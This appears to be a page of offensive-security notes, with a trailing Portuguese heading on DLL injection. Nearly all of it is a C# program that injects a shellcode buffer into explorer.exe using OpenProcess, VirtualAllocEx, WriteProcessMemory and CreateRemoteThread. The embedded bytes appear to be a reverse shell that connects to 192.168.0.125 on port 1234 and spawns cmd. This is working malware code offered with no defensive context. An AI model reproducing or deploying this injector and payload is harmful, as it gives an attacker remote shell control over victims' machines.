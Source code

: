```csharp
        static void Main(string[] args)
        {
            Process[] expProc = Process.GetProcessesByName("explorer");
            int pid = expProc[0].Id;
            IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);

            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);

            byte[] buf = new byte[460] {0xfc,0x48,0x83,0xe4,0xf0,0xe8,
            0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,
            0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
            0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,
            0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,
            0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,
            0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x8b,
            0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,
            0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,
            0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,
            0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,
            0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,
            0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
            0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,
            0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,
            0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,
            0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,
            0x57,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,
            0x32,0x00,0x00,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,
            0x01,0x00,0x00,0x49,0x89,0xe5,0x49,0xbc,0x02,0x00,0x04,0xd2,
            0xc0,0xa8,0x00,0x7d,0x41,0x54,0x49,0x89,0xe4,0x4c,0x89,0xf1,
            0x41,0xba,0x4c,0x77,0x26,0x07,0xff,0xd5,0x4c,0x89,0xea,0x68,
            0x01,0x01,0x00,0x00,0x59,0x41,0xba,0x29,0x80,0x6b,0x00,0xff,
            0xd5,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,
            0x48,0x89,0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,
            0x0f,0xdf,0xe0,0xff,0xd5,0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,
            0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,0x99,0xa5,0x74,0x61,
            0xff,0xd5,0x48,0x81,0xc4,0x40,0x02,0x00,0x00,0x49,0xb8,0x63,
            0x6d,0x64,0x00,0x00,0x00,0x00,0x00,0x41,0x50,0x41,0x50,0x48,
            0x89,0xe2,0x57,0x57,0x57,0x4d,0x31,0xc0,0x6a,0x0d,0x59,0x41,
            0x50,0xe2,0xfc,0x66,0xc7,0x44,0x24,0x54,0x01,0x01,0x48,0x8d,
            0x44,0x24,0x18,0xc6,0x00,0x68,0x48,0x89,0xe6,0x56,0x50,0x41,
            0x50,0x41,0x50,0x41,0x50,0x49,0xff,0xc0,0x41,0x50,0x49,0xff,
            0xc8,0x4d,0x89,0xc1,0x4c,0x89,0xc1,0x41,0xba,0x79,0xcc,0x3f,
            0x86,0xff,0xd5,0x48,0x31,0xd2,0x48,0xff,0xca,0x8b,0x0e,0x41,
            0xba,0x08,0x87,0x1d,0x60,0xff,0xd5,0xbb,0xe0,0x1d,0x2a,0x0a,
            0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,
            0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,
            0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5};


            IntPtr outSize;

            WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);

            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
        }

    }
}
```
# Injeção de DLL
